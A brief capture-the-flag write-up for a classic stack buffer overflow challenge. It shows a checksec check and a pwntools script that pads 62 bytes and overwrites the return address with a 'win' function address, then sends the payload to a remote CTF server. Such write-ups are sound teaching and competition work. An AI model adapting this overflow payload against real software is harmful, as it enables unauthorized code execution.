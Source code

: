 # bof on the top

this one was just a classic bufferovflow 

we will start by examining the binary 
`checksec ./bof`

![checksec]()

nothing unique no protection no ASLR

so I just got a cyclic pattern and located the overflow
done :D

exploit code 
```
from pwn import *

p = remote("ctf.umbccd.io", 4000)
#p = process("./bof")

win = p32(0x08049182)

payload = ("A"*62).encode() + win + p32(0xdeadbeef) + p32(1200) + p32(366)

input("attach gdb")
p.recvuntil("name?")
p.sendline(payload)
p.recvuntil("singing?")
p.sendline()

data = p.recvline()
print(data.decode())
data = p.recvline()
print(data.decode())
p.interactive()
```
